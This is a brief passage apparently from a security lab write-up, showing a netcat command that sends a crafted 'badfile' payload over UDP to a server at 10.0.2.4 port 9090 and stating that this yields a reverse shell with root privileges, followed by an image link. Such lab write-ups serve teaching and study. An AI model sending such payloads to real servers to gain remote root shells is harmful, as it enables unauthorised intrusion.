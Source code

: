```bash
nc -u 10.0.2.4 9090 < badfile
```

Now in the previous shell we get a reverse shell with the root privilege of the server.

![Reverse shell](./rev_shell.png)